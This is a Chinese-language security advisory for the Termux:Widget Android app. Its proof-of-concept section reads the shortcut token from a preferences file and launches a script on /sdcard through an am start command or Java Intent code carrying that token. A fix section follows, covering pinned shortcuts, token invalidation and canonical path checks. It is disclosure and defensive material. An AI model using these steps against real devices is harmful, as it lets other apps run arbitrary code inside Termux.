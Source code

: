 
### 1. POC

1. 安装 [`Termux:Widget` `v0.12`](https://f-droid.org/en/packages/com.termux.widget).

2. 通过 Termux Terminal 创建一个快捷方式: `touch ~/.shortcuts/tasks/test`

3. 通过以下方式获取 Token: 安装并打开 [`TaskerLauncherShortcut`](https://github.com/agnostic-apollo/TaskerLauncherShortcut/releases), 点击 选项 (右上角的三个点按钮)，选择 `Search Shortcuts` -> `Static Shortcut` -> `Termux:Widget` -> 选择任意一个快捷方式， Intent URI 会被复制到剪切板，比如  `com.termux.file:/data/data/com.termux/files/home/.shortcuts/tasks/test#Intent;component=com.termux.widget/.TermuxLaunchShortcutActivity;S.com.termux.shortcut.token=22e30b81-5d67-4ee3-be0e-66169f637025;end`。也可以通过 Termux Terminal 来获取 Token，在至少创建了一个快捷方式后，执行 `cat /data/data/com.termux.widget/shared_prefs/token.xml`。

4. 通过 Termux Terminal 创建漏洞利用脚本: `echo 'whoami; su -c whoami; sleep 5' > /sdcard/exploit.sh`

5. 通过 Termux Terminal 或者 `adb shell` 触发此漏洞: `am start --user 0 -n com.termux.widget/.TermuxLaunchShortcutActivity -d /sdcard/exploit.sh --es com.termux.shortcut.token 22e30b81-5d67-4ee3-be0e-66169f637025`

或者从任何一个应用程序，执行以下 Java 代码：

```java
	Intent intent = new Intent();
	intent.setClassName("com.termux.widget", "com.termux.widget.TermuxLaunchShortcutActivity");
	intent.setData(Uri.parse("/sdcard/exploit.sh"));
	intent.putExtra("com.termux.shortcut.token", "22e30b81-5d67-4ee3-be0e-66169f637025");
	startActivity(intent);
```

Termux 应用程序将会执行使用 `/data/data/com.termux/files/usr/bin/sh` 执行 `/sdcard/exploit.sh` 脚本，`/sdcard` 被挂载为 `noexec` 也没有问题。

### 2. 修复方式

1. 在 Android 版本 `>=8` 时，程序将使用 `ShortcutManager` API 来创建Pinned Shortcut。这是一个创建快捷方式的更好方法，因为启动器无法访问应用程序的快捷方式数据，Android 系统来储存这些数据，启动器应用程序无法获取 Token ，也无法运行任何不是由用户创建的快捷方式脚本。有关快捷方式类型的更多信息，请查看 https://github.com/agnostic-apollo/TaskerLauncherShortcut#shortcut-types。 ([`e94d7777`](https://github.com/termux/termux-widget/commit/e94d7777))

2. 在旧版本上， `Termux:Widget` 创建的快捷方式和 Token 已经失效。如果恶意应用程序已经拥有这种 Token ，也无法再使用。Android `>= 8` 上的用户只能使用更安全的 Pinned Shortcut API 来重新创建这些快捷方式，而不是继续使用不安全的 Static Shortcut API。 ([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee))

3. 在执行之前， 程序首先 [寻找并校验](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L183) `TermuxLaunchShortcutActivity` 接收到的可执行文件参数的规范路径。即使某个程序发送的 Intent 发送了路径，损坏的符号链接，或者其规范路径不在 `~/.shortcuts` 或 `~/.termux` 目录下的快捷方式将 [不会被显示](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetService.java#L30)，并且 [后者会不允许被执行](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L186) 。([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee), [`32f344ee`](https://github.com/termux/termux-widget/commit/13954b8b), [`bcb0ab6c`](https://github.com/termux/termux-widget/commit/bcb0ab6c))

在 Android 版本 `>=8` 上使用 Pinned Shortcut，不允许执行规范路径不在 `~/.shortcuts` 或 `~/.termux` 目录下的文件，可以提供合理的安全性，防止任意代码执行或权限提升。Android 版本 `< 8` 时，仍然要使用 Static Shortcut，这些用户应该关注他们在哪些应用程序中创建了快捷方式，因为这些应用程序能够在允许的目录下执行任何脚本。这些用户通常应该去关注使用了哪些启动器，或者安装在他们的设备上的非启动器的快捷方式应用程序 (例如 [Shortcut Maker](https://play.google.com/store/apps/details?id=rk.android.app.shortcutmaker))，因为这些应用程序可以为其他应用程序执行危险的快捷方式，如果应用程序没有正确保护，可能会产生严重的后果。
